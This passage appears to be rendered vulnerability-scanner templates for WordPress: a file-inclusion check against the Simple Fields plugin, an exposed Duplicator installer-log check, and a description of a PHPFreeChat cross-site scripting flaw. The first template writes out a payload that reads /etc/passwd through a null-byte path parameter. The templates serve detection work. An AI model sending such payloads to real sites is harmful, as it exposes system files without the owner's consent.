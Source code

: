 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/simple-fields/simple_fields.php?wp_abspath=/etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# WordPress Installer Log

- severity - info
- tags - wordpress,log

## Requests

- Method - GET

### URL

- {{BaseURL}}/installer-log.txt

### Matchers

**Type - regex**

- regex
  1. (?mi)DUPLICATOR(-|\s)?(PRO|LITE)?:? INSTALL-LOG
- part - body

**Type - status**

- status
  1. 200

---

# WordPress PHPFreeChat 0.2.8 - Cross-Site Scripting

## Description

- WordPress PHPFreeChat 0.2.8 plugin contains a cross-site scripting vulnerability via the url parameter. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,wp-plugin,edb,wordpress
